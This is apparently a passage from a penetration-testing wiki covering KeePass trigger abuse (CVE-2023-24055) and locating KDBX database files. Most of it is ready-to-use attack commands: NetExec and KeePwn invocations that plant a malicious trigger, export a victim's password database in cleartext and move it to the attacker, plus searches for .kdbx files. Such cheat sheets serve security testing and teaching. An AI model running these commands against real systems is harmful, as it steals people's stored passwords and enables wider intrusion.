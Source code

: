 {% hint style="danger" %}
This KeePass Trigger Abuse, identified as [CVE-2023-24055](https://nvd.nist.gov/vuln/detail/cve-2023-24055) only affects **KeePass versions 2.53 and earlier.**
{% endhint %}

{% tabs %}
{% tab title="UNIX-Like" %}
[NetExec](https://github.com/Pennyw0rth/NetExec) (Python) can be used to remotly check if keepass is installed on the target computer and then steal the master password trough KeePass Trigger and decrypt the database.

```bash
# Recon
nxc smb <TARGET> -u <ADMIN_ACCOUNT> -p <PASSWORD> -M keepass_discover

# Exploit
nxc smb <TARGET> -u <ADMIN_ACCOUNT> -p <PASSWORD> -M keepass_trigger -o KEEPASS_CONFIG_PATH="path_from_module_discovery"
```

[KeePwn ](https://github.com/Orange-Cyberdefense/KeePwn)(Python) can also be used to remotely abuse KeePass trigger in order to export the database in cleartext.

{% hint style="info" %}
If the configuration file path is not the default location, you can specify one with `--config-path` argument.
{% endhint %}

```bash
# Check if a malicious trigger named "export" is currently written in KeePass configuration
python3 KeePwn.py trigger check -u <ADMIN_ACCOUNT> -p <PASSWORD> -d <DOMAIN> -t <TARGET>     

# Add and remove a malicious trigger named "export" which performs a cleartext export of the database in %APPDATA% on next KeePass launch
python3 KeePwn.py trigger add -u <ADMIN_ACCOUNT> -p <PASSWORD> -d <DOMAIN> -t <TARGET>     

# Poll %APPDATA% for exports and automatically moves it from remote host to local filesystem
python3 KeePwn.py trigger poll -u <ADMIN_ACCOUNT> -p <PASSWORD> -d <DOMAIN> -t <TARGET>     
```
{% endtab %}
{% endtabs %}

### Cracking KDBX Database Master Password

{% tabs %}
{% tab title="Unix-Like" %}
#### Cracking Master Password - Manually

If we gained access to the keepass database, we may be able to extract it and crack the master database password.&#x20;

Keepass database is stored as a `.kdbx` file, we can search for such files using following commands:

```powershell
#PowerShell
Get-ChildItem -Path C:\ -Include *.kdbx -File -Recurse -ErrorAction SilentlyContinue

#Cmd
dir /s /b C:\*.kdbx
```
